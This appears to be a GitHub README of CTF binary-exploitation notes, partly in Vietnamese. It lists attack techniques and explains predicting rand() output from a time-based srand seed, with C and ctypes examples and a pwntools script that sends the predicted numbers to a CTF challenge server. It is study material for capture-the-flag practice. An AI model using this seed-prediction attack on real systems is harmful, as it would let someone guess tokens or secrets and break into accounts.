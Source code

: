 # zAttack
- Technique and subTechnique support pwnable ctf and exploit.

## [0] Overview
- Integer Overflow
- &environ
- _rtld_global
- Canary global TLS
- Race Condition
- Side-Channel-Attack
- overwrite `.fini_array` => loop
- Type of Confusion | Type Error
- Command Injection
- Path Traversal
- CGI File Binary
- Logic BUG: seed, permission, ...
    * __RANDOM => seed__: dùng seed có giá trị là thời gian thực lúc chạy chương trình, vì vậy tạo 1 script chạy cùng là xong

    * Nhiệm vụ của srand(x) đưa ra seed x rồi rand() dựa vào x đưa ra số a. Khi đó a là seed cho lần gọi rand() tiếp theo (cứ như thế tiếp tục). Do vậy VD trong vòng lặp thời gian 1 giây rand() dùng seed cũ liên tục nên nó không bao giờ ra số khác nhau trong khoảng thời gian đó.

    * VD: [Meshuggah](https://qbao.home.blog/2020/04/30/start-to-pwnb01lers-ctf/) .
    ```bash
    asm:
        mov edi, 0      ; time
        call _time
        add eax, 2
        mov edi, eax    ; seed
        call _srand
    ```

    ```C
    int main(){
        int seed = time(0) + 2;
        srand(seed);
        for(int i = 0; i < 100; i++)
            printf("%d\n", rand());
        return 0;
    }
    ```
    * Code sample python
    ```python
    from ctypes import CDLL
    from ctypes.util import find_library

    libc = CDLL(find_library("c"))

    libc.srand(0x5a35b162)
    print(libc.rand(), libc.rand(), libc.rand())
    ```
    ```python
    #!/usr/bin/env python3
    from pwn import *
    import random
    import time
    import calendar
    import datetime
    from ctypes import *
    import random
    elf = ELF("./random")
    libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
    # p = elf.process()
    p = remote("challs.tfcctf.com", "32615")
    context.update(binary=elf, log_level="DEBUG")
    # gdb.attach(p, '''
    # 	b *vuln
    # 	''')

    current_GMT = time.gmtime()
    time_stamp = calendar.timegm(current_GMT)
    libc.srand(time_stamp)
    print(p.recvline())
    for i in range(10):
        number = libc.rand()
        p.sendline(str(number).encode())


    p.interactive()
    ```

## [1] References:
- https://dreamhack.io/
